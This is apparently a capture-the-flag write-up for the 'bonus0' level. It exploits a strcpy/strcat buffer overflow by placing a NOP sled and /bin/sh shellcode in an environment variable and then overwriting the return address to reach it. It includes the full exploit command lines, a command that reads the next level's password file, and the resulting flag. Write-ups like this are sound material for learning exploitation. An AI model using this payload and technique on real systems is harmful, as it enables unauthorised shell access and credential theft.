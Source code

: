 # bonus0

The executable does the following :

- Reads `4096` bytes of `stdin` and copy the first `20` into `a`
- Reads `4096` bytes of `stdin` and copy the first `20` into `b`
- `strcpy` the contents of `a` to `dest`
- `strcat` the contents of `b` to `dest`

With no function to call or function pointer, we'll use `eip` to point to a shellcode.

## **The addresses**

To figure out what happens, we'll fill the first prompt with a bunch of `A` and the second with a bunch of `B` here (at least 20).

In `gdb`, we get the addresses of the buffer and `eip` using `x/32xw $esp` and `i r $ebp` :

- The buffer is at `0xbffff606`
- `eip` is at `0xbffff63c`

`0x3c - 0x06 = 0x38 = 54 bytes`

Because of the `strcpy` and the `strcat`, the buffer has the following format :

```
20 bytes of A + 20 bytes of B + 5 bytes of filler + 20 bytes from B again
```

Our 54-byte offset starts us off at the **10th character of the second B buffer**.

This will give us the following :

```
20 bytes + 9 bytes + ADDRESS + 7 bytes + 5 bytes + 9 bytes + ADDRESS + 7 bytes
[   A   ]  [            B            ]  [ random ] [        copy of B        ]
```

Problem : this only gives us 29 bytes for the shellcode. We'll need to find a workaround if we want to use our 45-byte shellcode.

## **The envp**

We haven't needed it so far, but the `envp` table is a neat place for storing as much as we want in memory.

To use it, we can use the syntax `env -i name=value ./executable`. We run the following :

```
env -i shellcode=$(python -c 'print("\x90" * 512 + "\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/sh")') gdb bonus0
```

Now we can find our shellcode, by skimming through memory looking for 0x90909090 blocks (using something like `x/64xw 0xADDRESS`).

In `gdb`, the nopesled spans from `0xbffffd8a` to `0xbfffff8a`.

This is a place where a big nopesled is useful for more than just visibility ; before, we knew exact addresses, but here, the address of our env shellcode changes between `gdb` and regular execution (possibly because `gdb` sets its own env variables).

With a nopesled 512 bytes wide, by targeting its middle, we get 256 bytes of wiggle room left *and* right, in case of a shift.

We decide to target the midpoint, `0xbffffe8a`.

## **The command**

Now to put this all together. We'll need to send something like this :

```
( BUFFER A ; BUFFER B WITH ADDRESS ; COMMAND FOR /BIN/SH ) | env -i shellcode=SHELLCODE ./bonus0
```

We run the following :

```
( python -c 'print("A" * 20)' ; python -c 'print("B" * 9 + "\x8a\xfe\xff\xbf" + "B" * 7)' ; echo 'cat /home/user/bonus1/.pass' ) | env -i shellcode=$(python -c 'print("\x90" * 512 + "\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/sh")') ./bonus0
```

## **The flag**

It works ! We get the flag for `bonus0` :

```
cd1f77a585965341c37a1774a1d1686326e1fc53aaa5459c840409d4d06523c9
```